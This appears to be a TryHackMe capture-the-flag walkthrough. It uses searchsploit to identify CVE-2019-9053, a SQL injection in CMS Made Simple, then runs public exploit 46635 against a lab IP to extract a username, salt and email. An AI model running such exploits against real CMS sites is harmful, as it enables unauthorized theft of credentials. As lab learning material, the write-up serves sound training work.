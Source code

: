 ```shell
searchsploit 'CMS Made Simple 2.2.8'
```

I recieved the following output:
	
```
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection      | php/webapps/46635.py
---------------------------------------------- ---------------------------------
```

I looked up the Exploit Title on Google, and clicked on the following page:

[exploit-db](https://www.exploit-db.com/exploits/46635)

It lists near the top, that the CVE number is: 2019-9053.

So the answer is:

```
CVE-2019-9053 
```

### To what kind of vulnerability is the application vulnerable?

The vulnerability described in CVE-2019-9053 is a "SQL Injection", the answer is shorthand for that which is:
```
sqli
```

### What's the password?
Since TryHackMe references CVE-2019-9053, I'm going to assume that we can use this vulnerability to retrieve the password...

"SQL Injection" should always make a pen-tester's ears perk up! You can see that SearchSploit references a python file: "46635.py". That number refers to the "EDB-ID" of this particular exploit. We can have SearchSploit copy this python file to our current working directory with the following command:
```shell
searchsploit -m 46635
```
Let's try out this python script! **NOTE:** This script was not made for python3, I made some modifications to the script to allow it to work for python3.

```shell
python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c
```

This script was not very stable. I had to run it a few times, and I was never able to get it to crack the password as advertised. But I did successfully get the following info:

```	
salt = 1dac0d92e9fa6bb2
username = mitch
email = admin@admin.com
```
